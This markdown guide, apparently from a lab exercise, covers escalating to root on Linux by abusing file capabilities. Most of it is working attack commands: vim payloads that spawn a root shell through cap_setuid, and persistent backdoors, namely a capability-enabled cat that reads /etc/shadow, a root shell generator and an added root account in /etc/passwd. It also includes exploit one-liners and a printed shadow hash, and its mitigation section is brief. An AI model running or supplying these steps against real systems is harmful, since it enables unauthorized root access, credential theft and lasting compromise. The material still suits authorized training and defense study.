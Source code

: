 # **Linux Capabilities Privilege Escalation Guide**

## **1. Identifying Dangerous Capabilities**
```bash
# Find all files with capabilities
getcap -r / 2>/dev/null

# Example findings:
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep  # <-- Most interesting!
```

## **2. Exploiting `cap_setuid` on Vim**
### **Method 1: Python3 Payload**
```bash
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
- **Result**: Drops you into a root shell (`uid=0`)

### **Method 2: GTFOBins One-Liner**
```bash
./vim -c ':lua os.execute("su root")'
```

## **3. Creating Persistent Backdoors**
### **A. Create a Capability-Enabled Cat**
```bash
# As root:
cp /bin/cat /home/karen/supercat
setcap CAP_DAC_READ_SEARCH=+ep /home/karen/supercat

# As normal user:
/home/karen/supercat /etc/shadow  # Now works!
```

### **B. Make a Root Shell Generator**
```bash
echo -e '#!/bin/sh\n/bin/bash -p' > /home/karen/rootshell
chmod +x /home/karen/rootshell
setcap cap_setuid+ep /home/karen/rootshell
```

## **4. Critical Capabilities to Exploit**
| Capability | Effect | Example Exploit |
|------------|--------|-----------------|
| `cap_setuid` | Change UID | `python -c 'import os; os.setuid(0); os.system("/bin/bash")'` |
| `cap_dac_read_search` | Bypass file read perms | `cat /etc/shadow` |
| `cap_dac_override` | Bypass all file perms | `vim /etc/passwd` |
| `cap_net_bind_service` | Bind to low ports | `nc -lvp 80` |

## **5. Defense & Mitigation**
```bash
# Remove dangerous capabilities
setcap -r /path/to/binary

# Find all setuid binaries
find / -perm -4000 -type f 2>/dev/null

# Audit capabilities regularly
getcap -r / 2>/dev/null > /var/log/capabilities.log
```

## **6. Real-World Examples**
### **Reading Protected Files**
```bash
$ getcap /home/karen/supercat
/home/karen/supercat = cap_dac_read_search+ep

$ /home/karen/supercat /etc/shadow
root:*:18561:0:99999:7:::
karen:$6$4eGstEUvk4plAj.1$BCRZBB8lHIKa8jY0K5V5g43C4N.5gE55BtI343nn6RXHaxKfB7vDeUSSkXSKLexoaawuB1ddy6WKb/W3PXt9A0:18796:0:99999:7:::
```

### **Creating New Root User**
```bash
# After getting root via vim:
echo "backdoor:\$6\$salt\$hash:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## **7. Reference Table: Dangerous Capabilities**
| Capability | Risk | Common Binaries |
|------------|------|-----------------|
| `CAP_SETUID` | Root access | Vim, Python, Perl |
| `CAP_DAC_OVERRIDE` | Read/write any file | Cat, Less |
| `CAP_NET_RAW` | Network sniffing | Ping, Tcpdump |
| `CAP_SYS_ADMIN` | Mount/namespace ops | Mount, Unshare |

**Pro Tip**: Always check for custom binaries in home directories with `getcap`! These are often overlooked by admins.
